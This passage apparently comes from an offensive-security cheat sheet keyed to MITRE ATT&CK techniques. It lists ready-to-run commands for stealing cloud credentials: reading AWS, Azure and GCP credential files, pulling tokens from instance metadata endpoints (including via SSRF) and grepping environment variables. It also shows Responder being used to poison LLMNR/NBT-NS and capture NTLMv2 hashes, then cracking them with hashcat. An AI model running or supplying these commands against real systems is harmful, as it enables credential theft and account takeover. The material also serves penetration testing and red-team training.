 ### 2.4 Cloud Credentials (T1552.001)

#### AWS Credentials
```bash
# Check for AWS credentials
cat ~/.aws/credentials
cat ~/.aws/config

# EC2 Instance Metadata (SSRF)
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Environment variables
env | grep AWS
```

#### Azure Credentials
```powershell
# Azure CLI credentials
Get-Content "$env:USERPROFILE\.azure\accessTokens.json"
Get-Content "$env:USERPROFILE\.azure\azureProfile.json"

# Managed Identity endpoint (from Azure VM)
$response = Invoke-WebRequest -Uri "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -Headers @{Metadata="true"}
```

#### GCP Credentials
```bash
# GCP credentials
cat ~/.config/gcloud/credentials.db
cat ~/.config/gcloud/application_default_credentials.json

# Metadata service
curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token" -H "Metadata-Flavor: Google"
```

---

## 3. Network-Based Credential Capture

### 3.1 Network Sniffing (T1040)

#### Responder - LLMNR/NBT-NS Poisoning
```bash
# Run Responder to capture NTLMv2 hashes
responder -I eth0 -wrf

# Captured hashes can be cracked with hashcat
hashcat -m 5600 ntlmv2.txt wordlist.txt
```
